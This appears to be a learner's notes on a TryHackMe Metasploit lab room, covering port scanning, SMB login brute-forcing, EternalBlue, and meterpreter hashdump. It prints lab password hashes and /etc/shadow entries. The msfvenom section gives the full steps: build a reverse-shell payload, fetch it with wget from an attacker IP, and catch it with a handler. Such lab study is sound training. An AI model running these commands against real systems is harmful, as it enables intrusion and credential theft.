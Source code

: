```yaml
---
Tags: MetaSploitExploitation
date: 06-20-2022
---
```


[TryHackMe Rooms](./TryHackMeRooms.md)

---


- learned to user metasploit scan module to scan ports 'scannner/portscan/tcp'
- found 5 open ports using that scanner
- used NMAP while in metasploit console 
- used scanner/smb/login module with a password file and the user penny when I ran the exploit  the password discovered was leo1234
- used info on smtp_relay module to discover that Campbell Murray wrote the module
## Task 5
- ran NMAP and found  several open ports and saved the output, it was a windows 7 machine.
- used the eternal blue exploit 
- NTLM hashes are located at %SystemRoot%/system32/config/SAM
- found a flag in jons documents
	- THM-5455554845
	- used hashdump in meterpreter to dump this hash
		- pirate:1001:aad3b435b51404eeaad3b435b51404ee:
		- *8ce9a3ebd1647fcc5e04025019f4b875*:::

## Task 6 Msfvenom
- cat /etc/shadow
```
+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:

```

- here is a webpage with [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- step one , create a linux payload 
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- step two - upload it to target system
	- python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine
- step three - chmod +x shell to executable
- step four setup your listener in msfconsole
	- load multi/handler
	- set local port and host IP
	- set *PAYLOAD* to linux/x86/meterpreter/reverse_tcp
	- exploit
- run reverse shell on target machine
- loaded and ran post/linux/gather/hashdump to get linux hashes